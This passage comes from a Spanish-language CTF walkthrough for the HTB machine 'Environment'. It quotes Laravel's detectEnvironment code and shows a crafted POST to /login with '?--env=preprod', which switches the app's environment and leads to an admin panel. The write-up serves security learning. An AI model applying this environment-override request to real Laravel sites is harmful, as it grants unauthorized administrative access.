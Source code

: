 ~~~ php
public function detectEnvironment (Closure $callback)
{
    $args = $_SERVER['argv'] ?? null;

    return $this['env'] = (new EnvironmentDetector)->detect($callback, $args);
}
~~~

### Exploiting

Enviaremos una solicitud HTTP POST a `/login` pasando el parámetro `--env` con el valor `preprod` (el que vimos en el código)

~~~ http
POST /login?--env=preprod HTTP/1.1
Host: environment.htb
...
...
...

_token=<TOKEN_HERE>=test123%40test.com&password=test123&remember=False
~~~

Desde `Burpsuite`, vemos cómo el servidor procesa la solicitud correctamente y nos intenta redirigir a `/management/dashboard`

![image-center](/assets/images/posts/environment-burpsuite-2.png)
{: .align-center}

Al replicar esta solicitud en el navegador, el servidor nos llevará a un panel de administración
